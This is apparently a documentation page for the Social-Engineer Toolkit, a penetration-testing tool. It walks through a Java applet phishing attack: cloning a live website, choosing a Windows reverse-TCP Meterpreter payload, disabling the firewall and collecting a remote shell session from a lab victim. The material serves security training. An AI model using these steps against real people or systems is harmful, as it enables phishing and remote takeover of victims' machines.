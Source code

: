 
The Social-Engineering Toolkit
===========================

Website
-------

<https://www.trustedsec.com/downloads/social-engineer-toolkit/>

<https://github.com/trustedsec/social-engineer-toolkit>

Description
-----------

SET is an open source tool implemented in python which focuses on penetration testing through 
social engineering. SET uses advanced attack techniques and has been featured in many books.

Install Location
----------------

`/opt/set/`

Usage
-----

SET comes with a built in menu driven UI.  All you need to do is launch it; and follow the prompts.

`~#` **`cd /opt/set`**

`/opt/set#` **`./setoolkit`**

Example 1: Look over SET's features
-----------------------------------

After launching you will be greeted by the SET prompt.  It should look
similar to below.

    Select from the menu:
    
       1) Social-Engineering Attacks
       2) Fast-Track Penetration Testing
       3) Third Party Modules
       4) Update the Metasploit Framework
       5) Update the Social-Engineer Toolkit
       6) Update SET configuration
       7) Help, Credits and About
       
       99) Exit the Social-Engineer Toolkit
       
    set>

For its incredible power SET is extremely simple to use. No need to 
memorize commands, since SET presents the user with a series of 
itemized menus. Let's have a look at some of these features.

First off, notice that options 4-6 run updates for metasploit, SET, and
its options, respectively.

Next, let's look at `Social Engineering Attacks`. Just hit `1` at the prompt
and press enter. You'll be presented with your next layer of menus.

![](SET_files/SET02.png)

Select `Website Attack Vectors` in the current menu (item #2).

![](SET_files/SET03.png)

Note that the list of choices is now proceeded by a descritpion of each.
One of SET's more effective attack vectors is the `Java Applet Attack Method`. 
This method requires that we build a fake website and load a
malicious java applet into it, then convince your target to run the
applet. Let's select the `Java Applet Attack Method`.

![](SET_files/SET04.png)

Now we can take a look at how we want to build this website.  Our options
are to choose to use existing web templaes or clone a live site.

`set:webattack>` **`2`**

Selecting the live site you are now asked if you are using nat port
forwarding.  Answer `no`.

`set> Are you using NAT/Port Forwarding [yes|no]:` **`no`**

Next, we'll be asked for the IP address we will be listening on. Find
it by typing `ifconfig` in another terminal window and type it in
when SET prompts you.

`192.168.1.113`

Next, we're prompted for a site to clone.  Let's use `http://isitchristmas.com`

SET now retrieves the site and presents us with a (long) list of
payloads.  We'll choose #2 for now, which is the `Windows Reverse_TCP Meterpreter` payload.

       2) Windows Reverse_TCP Meterpreter       Spawn a meterpreter shell on the victim and send it back to the attacker

`set:payloads>` **`2`**

SET gives many options for encoding and obfuscation.  Encoding can be 
useful in circumstances when certain characters are not allowed.
However, many people mistakenly believe encoding is meant to bypass 
Anti-Virus software.  There was a time when a side-effect of encoding 
was that AV would not detect a malicious payload, however today encoding
will _cause_ AV to flag a payload just as often as not.  So for now, 
let's go with option `16) No Encoding`.  

`set:encoding>` **`16`**

Finally, we come to the port of the listener.  Ensure that the
firewall is disabled, and for now **please use the defaults!**

Once the listener is running we're just waiting for the victim to surf
to our page. When they do they'll be presented with the ever-familiar
"Do you want to run this application" dialog box, where they always
seem to click yes.

If we look on the listening machine we see that SET now shows the
Metasploit prompt and is creating sessions in the background.

    msf exploit(handler)> sessions -l
     
    Active sessions
    ===============
     
      Id Type                       Information
      -- ----                       -----------
      1  meterpreter x86/win32      Test\tester @ LAB  (192.168.1.141)

We can now interact with the session.

`msf exploit(handler) >` **`sessions -i 1`**

From here, you have the entire Metasploit Framework at your disposal, including plugins, post 
modules, and exploits.


